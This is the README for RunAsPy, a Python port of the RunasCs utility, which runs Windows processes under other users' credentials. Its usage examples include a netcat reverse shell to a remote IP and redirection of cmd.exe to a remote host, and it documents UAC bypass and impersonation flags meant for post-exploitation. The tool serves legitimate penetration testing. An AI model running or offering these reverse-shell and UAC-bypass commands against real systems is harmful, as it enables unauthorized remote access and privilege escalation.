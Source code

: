 # RunAsPy

A python port of [RunAsCs](https://github.com/antonioCoco/RunasCs)

*RunasPy* is an utility to run specific processes with different permissions than the user's current logon provides using explicit credentials.
This tool is an improved and open version of windows builtin *runas.exe* that solves some limitations:

* Allows explicit credentials
* Works both if spawned from interactive process and from service process
* Manage properly *DACL* for *Window Stations* and *Desktop* for the creation of the new process
* Uses more reliable create process functions like ``CreateProcessAsUser()`` and ``CreateProcessWithTokenW()`` if the calling process holds the required privileges (automatic detection)
* Allows to specify the logon type, e.g. 8-NetworkCleartext logon (no *UAC* limitations)
* Allows to bypass UAC when an administrator password is known (flag --bypass-uac)
* Allows to create a process with the main thread impersonating the requested user (flag --remote-impersonation)
* Allows redirecting *stdin*, *stdout* and *stderr* to a remote host
* It's Open Source :)

*RunasPy* has an automatic detection to determine the best create process function for every contexts.
Based on the process caller token permissions, it will use one of the create process function in the following preferred order:

1. ``CreateProcessAsUserW()``
2. ``CreateProcessWithTokenW()``
3. ``CreateProcessWithLogonW()``

## Requirements

----

Python >= 3.8

# Usage

----

## commandline

```console
usage: RunAs.py [-h] [-d [DOMAINNAME]] -u [USERNAME] -P [PASSWORD] -c [CMD ...] [-t [PROCESSTIMEOUT]]
                [-l [{2,3,4,5,8,9}]] [-f [CREATEPROCESSFUNCTION]] [-r [REMOTE]] [-p] [-b] [-i] [-v]

options:
  -h, --help            show this help message and exit
  -d [DOMAINNAME], --domain [DOMAINNAME]
  -u [USERNAME], --username [USERNAME]
  -P [PASSWORD], --password [PASSWORD]
  -c [CMD ...], --command [CMD ...]
  -t [PROCESSTIMEOUT], --timeout [PROCESSTIMEOUT]
  -l [{2,3,4,5,8,9}], --logon-type [{2,3,4,5,8,9}]
  -f [CREATEPROCESSFUNCTION], --function [CREATEPROCESSFUNCTION]
  -r [REMOTE], --remote [REMOTE]
  -p, --force-profile
  -b, --bypass-uac
  -i, --remote-impersonation
  -v, --verbose         increase verbosity
```

### Run a command as a local user

```console
Runas.py -u user1 -P password1 -c "cmd /c whoami /all"
```

### Run a command as a domain user and logon type as NetworkCleartext (8)

```console
Runas.py -u user1 -P password1 -c "cmd /c whoami /all" -d domain -l 8
```

### Run a background process as a local user,
    
```console
Runas.py -u user1 -P password1 -c "C:\tmp\nc.exe 10.10.10.10 4444 -e cmd.exe" -t 0
```

### Redirect stdin, stdout and stderr of the specified command to a remote host
   
```console
Runas.py -u user1 -P password1 -c cmd.exe -r 10.10.10.10:4444
```

### Run a command simulating the /netonly flag of runas.exe

```console
Runas.py -u user1 -P password1 -c "cmd /c whoami /all" -l 9
```

### Run a command as an Administrator bypassing UAC
    
```console
Runas.py -u adm1 -P password1 -c "cmd /c whoami /priv" --bypass-uac
```

### Run a command as an Administrator through remote impersonation

```console
Runas.py -u adm1 -P password1 -c "cmd /c echo admin > C:\Windows\admin" -l 8 --remote-impersonation
```

## programmatic (python module)

```python
import RunAsPy
config = {"username": "foo", "password": "F00", "cmd": ["whoami", "/priv"], "verbose" :True, "bypassUac": True}
output = RunAsPy.Runas(**config)
print(output)
```

The two processes (calling and called) will communicate through one *pipe* (both for *stdout* and *stderr*).
The default logon type is 2 (*Interactive*). 

By default, the *Interactive* (2) logon type is restricted by *UAC* and the generated token from these authentications are filtered.
You can make interactive logon without any restrictions by setting the following regkey to 0 and restart the server:

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA
```

Otherwise, you can try the flag **--bypass-uac** for an attempt in bypassing the token filtering limitation.

**NetworkCleartext (8)** logon type is the one with the widest permissions as it doesn't get filtered by UAC in local tokens and still allows
 authentications over the Network as it stores credentials in the authentication package. If you holds enough privileges, try to always specify this logon type through the flag --logon-type 8.

By default, the calling process (*RunasPy*) will wait until the end of the execution of the spawned process. 
If you need to spawn a background or async process, i.e. spawning a reverse shell, you need to set the parameter ``-t timeout`` to ``0``. In this case *RunasPy* won't wait for the end of the newly spawned process execution.

## Special Thanks

* [antonioCoco](https://github.com/antonioCoco) - for the RunAsCs project
* [natesubra](https://github.com/natesubra) - For the help with the UAC bypass
